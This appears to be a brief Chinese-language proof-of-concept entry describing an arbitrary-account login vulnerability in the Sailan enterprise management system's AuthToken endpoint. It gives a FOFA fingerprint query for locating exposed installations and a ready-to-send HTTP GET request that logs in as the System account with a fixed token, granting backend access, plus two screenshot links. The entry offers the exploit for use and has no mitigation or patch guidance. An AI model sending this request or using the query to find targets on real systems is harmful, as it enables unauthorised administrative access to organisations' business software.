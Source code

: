 # 赛蓝企业管理系统AuthToken接口存在任意账号登录漏洞

赛蓝企业管理系统AuthToken接口存在任意账号登录漏洞，该漏洞可直接登录后台。

## fofa

```java
body="www.cailsoft.com" || body="赛蓝企业管理系统"
```

## poc

```
GET /AuthToken/Index?loginName=System&token=c94ad0c0aee8b1f23b138484f014131f HTTP/1.1
Host: 
```

![image-20240801195959160](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408011959230.png)

![image-20240801200007710](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408012000770.png)
